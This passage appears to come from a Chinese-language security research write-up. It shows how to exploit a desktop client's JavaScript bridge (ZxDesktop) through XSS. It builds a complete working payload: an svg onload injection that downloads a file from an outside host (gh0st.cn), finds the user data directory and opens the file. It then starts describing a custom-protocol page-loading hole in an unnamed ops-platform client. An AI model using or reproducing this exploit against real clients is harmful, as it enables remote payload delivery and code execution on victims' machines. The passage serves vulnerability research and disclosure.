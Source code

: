 ![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image041.png)

至此，我们就获得了文件下载的攻击路径，我们可以根据对应参数这样构建JS代码：

```javascript
ZxDesktop.require("File").save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

我们已经获得了文件下载的功能，攻击路径就很明显了：用户下载文件，打开文件。但是实际操作中，我们打开文件还缺少一个路径，并且在实际的测试中，默认情况下，下载的文件是会保存在应用的数据目录的null目录下。

而这个目录可能会被用户更改（用户名也没法获取），所以我们需要搭配一个点去获取路径，在这里找到了ZxDesktop的System模块：

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image045.png)

它的导出列表中有两个属性：dbPath、userDataPath，它们的内容都是一样的，指向了用户的数据目录：

```javascript
ZxDesktop.require("System").userDataPath
```

我们可以这样拼接，就有了下载文件的目录信息了：

```javascript
ZxDesktop.require("System").userDataPath + "/null/test.txt"
```

当我们满足所有条件后，就可以构造完整的攻击代码了：

1.下载文件：

```javascript
var a = ZxDesktop;

var b = a.require("File");

b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

2.拼接文件路径，打开文件：

```javascript
b.open(a.require("System").userDataPath + "/null/test.txt");
```

3.最终Exploit：

```html
"><svg onload='var a = ZxDesktop;var b = a.require("File");b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});b.open(a.require("System").dbPath + "/null/test.txt");'>
```

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028761314895.jpg)

##### 某运维平台客户端

在某运维平台客户端中，我们发现可以通过伪协议链接（`xxx://webview/?url=http://xxxx`）来达到端内任意页面加载，这也就表示我们可以执行任意JS代码。
